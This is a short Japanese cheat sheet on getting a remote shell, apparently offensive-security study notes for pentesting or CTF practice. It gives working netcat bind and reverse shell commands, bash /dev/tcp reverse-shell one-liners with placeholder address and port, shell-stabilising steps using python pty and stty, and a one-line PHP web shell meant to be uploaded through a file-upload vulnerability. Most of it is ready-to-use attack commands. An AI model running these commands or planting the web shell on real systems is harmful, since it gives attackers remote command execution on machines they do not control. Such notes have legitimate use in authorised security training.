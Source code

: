 # 遠隔からのシェル

* ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
* アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
* バインドシェル・リバースシェル `netcat`を使用

1. 待ち受け　`nc -vlp 1027`
2. 接続     `nc -v 192.168.XXX.XXX 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
3. ncがない場合の接続
    1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
    2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
4. シェルの安定化
    * python
    1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    2. `CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`
    * shell
    1. `script /dev/null -qc /bin/bash` #/dev/null is to not store anything(inside the nc session)
    2. `CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`

* Webシェル

1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
2. アップしたphpファイルを利用してweb経由でコマンド実行
    `<?php system($_GET["cmd"]); ?>`
